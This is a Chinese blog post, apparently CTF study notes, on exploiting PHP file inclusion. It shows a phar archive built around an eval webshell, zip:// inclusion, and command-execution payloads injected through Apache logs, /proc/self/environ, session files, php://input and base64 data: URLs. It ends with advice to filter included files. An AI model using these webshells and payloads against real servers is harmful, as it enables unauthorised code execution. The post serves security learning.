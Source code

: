 ```yaml
---
title: 文件包含漏洞（二）
tags:
  - PHP
  - 文件包含
id: 274
categories:
  - Web安全
  - 未分类
date: 2016-12-03 16:28:53
---
```


之前已经总结了一次文件包含漏洞相关的知识点，最近一段时间做CTF又遇到了不少以前没见过的包含新姿势，这里在总结一下，以后看的时候方便一些。
<!--more-->
## <del></del>phar LFI

### 0x01 什么是phar文件

phar是一个文件归档的包，类似于Java中的Jar文件，方便了PHP模块的迁移。

php中默认安装了这个模块。

### 0x02 创建一个phar文件

在创建phar文件的时候要注意phar.readonly这个参数要为off，否则phar文件不可写。

```php
<?php

$p = new phar("shell.phar", 0 , "shell.phar");

$p->startBuffering();

$p['shell.php'] = '<?php phpinfo(); @eval($_POST[x])?>';

$p->setStub("<?php Phar::mapPhar('shell.phar'); __HALT_COMPILER?>");

?>
```

运行以上代码后会在当前目录下生成一个名为shell.phar的文件，这个文件可以被include，file_get_contents等函数利用

### 0x03 利用phar

利用phar文件的方法很简单，利用phar特定的格式就可以加以利用

```php
<?php

include 'phar://shell.phar/shell.php';

?>
```

这样就可以成功把shell包含进来。当我们把shell.phar文件重命名为shell.aaa等一些无效的后缀名时，一样可以使用，说明了phar文件不受文件格式的影响。

![](http://www.blbana.cc/wp-content/uploads/2016/12/5e01b381ad62e11dd74805a4177bc152.png)

### 0x04 思路

有了phar文件，我们就能有一些猥琐的思路了，比如上传的文件名遭到了限制，我们无法上传php的文件，但是却只能包含php文件的时候（包含文件后缀名被限制 include '$file'.'.php'），我们就可以通过上传phar文件，再利用php伪协议来包含。

### 0x05 扩展

与phar类似的还有，zip://协议也与phar类似，但是上传了包含有一句话的zip文件后包含的姿势有所不同

include 'zip://shell.zip#shell.php' 利用#隔开，在URL中包含时要用%23，与URL中#号区分开。

（注意：php 5.3.4后已经修复了%00截断漏洞）

## 包含命令执行

先准备好代码&lt;? passthru($_GET[cmd])?&gt;上传到服务器，然后利用文件包含就可以。

### 0x01 包含apache日志

请求不存在的页面:http://host/aaaaa=&lt;? passthru($_GET[cmd])?&gt;

然后包含日志文件：

http://host/?file=../../../../var/apache/error_log&amp;cmd=ls

如果apache日志文件遭到了路径修改，可以利用爆路径等方式来找日志路径。

### 0x02 利用环境变量进行插入

/proc/self 指向最后一个PID使用的连接

在linux中，/proc/self可写并且位置固定。

将代码放在User-Agent中进行提交 请求http://host?file=../../../proc/self/environ&amp;cmd=ls

### 0x03 利用图马进行包含

### 0x04 利用session文件

如果知道session的字段。

http://host?user=&lt;? passthru($_GET[cmd])?&gt;

找到session文件储存的位置(常用/tmp/session)

### 0x05 利用php://input

`
<?php
$data = file_get_contents('php://input');
echo $data;
?>
`

![](http://www.blbana.cc/wp-content/uploads/2016/12/d1660fedd8e4cfacdc61fbb3d39e1792.png)

(注意：需要allow_url_include = On 且 PHP &gt;= 5.2.0)

### 0x06 data URL代码执行

我们可以将攻击代码转换为data:URL形式进行攻击，但是直接在URL连接中出现一些敏感字符，会导致被waf检测，所以我们需要给攻击代码进行base64编码。

http://localhost/test/phar%20LFI/postinput.php?file=data:text/plain;base64,PD9waHAKcGhwaW5mbygpOwo/Pg==

![](http://www.blbana.cc/wp-content/uploads/2016/12/90d47eb1cb5e3f380948909548dee61d.png)

## 

文件包含的利用姿势很多，一个文件包含可能直接导致getshell或者被利用成了代码执行漏洞，后果十分验证，所以在使用这些文件包含函数的时候，一定要对包含进来的文件进行过滤处理，避免漏洞的产生。

## 参考链接：

https://digi.ninja/blog/when_all_you_can_do_is_read.php 常用包含路径

https://wiki.apache.org/httpd/DistrosDefaultLayout 官方路径

http://static.hx99.net/static/drops/web-13249.html